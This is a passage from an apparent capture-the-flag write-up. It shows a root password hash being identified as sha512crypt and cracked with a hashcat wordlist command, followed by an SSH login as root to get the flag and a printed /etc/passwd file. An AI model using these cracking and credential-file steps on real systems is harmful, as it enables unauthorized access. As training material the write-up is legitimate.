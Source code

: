 It seems like we may have the hash for the password of the `root` user. Often, I can't identify the hash type right away, which can make it difficult to try to write the syntax to break it. So, I hop skip and jump my way over to the Hashcat [Wiki](https://hashcat.net/wiki/doku.php?id=example_hashes) to try and determine its algorithm. Based on what my research, it looks like a `sha512crypt` hash. Let's grab that and see if we can crack it. We can attempt to do this with the following syntax:

```
hashcat -a 0 -m 1800 roothash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

Looks like that worked and gave us the `root` password. Let's try to SSH into this box and grab the `root.txt` flag. 

```
ssh root@target-ip
The authenticity of host 'target-ip (target-ip)' can't be established.
ECDSA key fingerprint is SHA256:5evbK4JjQatGFwpn/RYHt5C3A6banBkqnngz4IVXyz0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'target-ip' (ECDSA) to the list of known hosts.
root@target-ip's password: 
Permission denied, please try again.
root@target-ip's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-157-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@ubuntu:~# ls
root.txt
```

For here, we can `cat root.txt` and call this box complete. 

## Rabbit Holes
This isn't so much as a rabbit hole as it is further enumeration, but it didn't turn out to be relevant so I'm putting it here to showcase it anyway. We could do something silly and navigate to the `etc/` folder and use `get passwd` to pull down the `etc/passwd` file, which could give us more insight as to other users we may be able to leverage. Here is what it contains:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```
